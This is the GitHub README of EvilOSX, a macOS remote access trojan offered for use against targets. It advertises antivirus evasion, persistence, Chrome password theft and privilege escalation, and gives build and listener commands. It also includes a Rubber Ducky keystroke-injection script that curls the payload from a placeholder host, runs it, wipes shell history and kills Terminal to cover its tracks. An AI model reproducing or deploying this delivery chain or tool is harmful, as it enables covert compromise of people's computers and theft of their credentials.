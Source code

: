 <h1 align="center">
  <br>
  <img src="modules/evil_rat_by_black_fire_dragoness-d6531uu.jpg" alt="Hack2Gain" width="250">
  <br>
  OSX-RAT
  <br>
</h1>

<h4 align="center">A pure python, post-exploitation, RAT (Remote Administration Tool) for macOS / OSX.</h4>

<p align="center">
  <a href="LICENSE.txt">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg">
  </a>
  <img src="https://img.shields.io/badge/contributions-none-orange.svg">
</p>

---

## Features

- Emulate a simple terminal instance
- Undetected by anti-virus (randomized hash, [HTTPS](https://en.wikipedia.org/wiki/HTTPS) communication)
- Multi-threaded
- No dependencies (pure python)
- Persistent
- Simple extendable [module](https://github.com/Marten4n6/EvilOSX/blob/master/modules/template.py) system
- Retrieve Chrome passwords
- Download and upload files
- Attempt to get root via local privilege escalation
- Auto installer, simply run EvilOSX on your target and the rest is handled automatically.

## How To Use

```bash
# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Go into the repository
$ cd EvilOSX

# Build EvilOSX which runs on your target
$ python builder.py

# Start listening for connections
$ python Server.py

# Lastly, run the built EvilOSX on your target.
```
![](https://i.imgur.com/Ce0V8B4.png)
![](https://i.imgur.com/cWYn7mL.png)

## Motivation

This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM See https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise. <br/>
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/). <br/>
  Aluminum Keyboard (ISO) is probably the keyboard VID&PID you are looking for.

## Issues

Feel free to submit any issues or feature requests.

## Credits

- Based on the awesome [EmpireProject](https://github.com/EmpireProject)
- [manwhoami](https://github.com/manwhoami) for his awesome projects: [OSXChromeDecrypt](https://github.com/manwhoami/OSXChromeDecrypt), [MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)
- Logo created by [motusora](https://www.behance.net/motusora)

## License

[GPLv3](https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt)
